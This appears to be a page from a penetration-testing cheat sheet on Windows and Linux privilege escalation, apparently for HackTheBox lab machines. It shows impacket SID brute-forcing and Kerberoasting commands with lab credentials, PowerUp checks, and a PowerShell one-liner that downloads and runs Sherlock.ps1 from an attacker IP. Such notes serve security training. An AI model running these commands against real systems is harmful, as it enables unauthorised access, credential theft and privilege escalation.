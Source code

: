#### lookupsid.py

This script allows you to bruteforce the Windows SID through \[MS-LSAT] MSRPC.

```
/opt/impacket/examples/lookupsid.py $user:stealth1agent@heist.htb
```

#### GetUserSPNs.py

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
```

### Using automation tools

You can use windows-privesc-checker by pentestmonkey

{% embed url="https://github.com/pentestmonkey/windows-privesc-check" %}

Or try with PowerUp.ps1 to find some hidden hints

```
PS C:\> powershell.exe import-module .\PowerUp.ps1
PS C:\> Invoke-AllChecks
```

#### Sherlock.ps1

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

```
powershell “IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.43/Sherlock.ps1'); Find-AllVulns”
```



## Linux Privilege Escalation

Linux Privilege Escalation is not as complex as Windows. I'd recommend running the known automation scripts before you start exploiting.&#x20;

### Using automation tools

#### **LinEnum**

```
-k Enter keyword
-e Enter export location
-t Include thorough (lengthy) tests
-r Enter report name
-h Displays this help text
```

{% @github-files/github-code-block url="https://github.com/rebootuser/LinEnum" %}
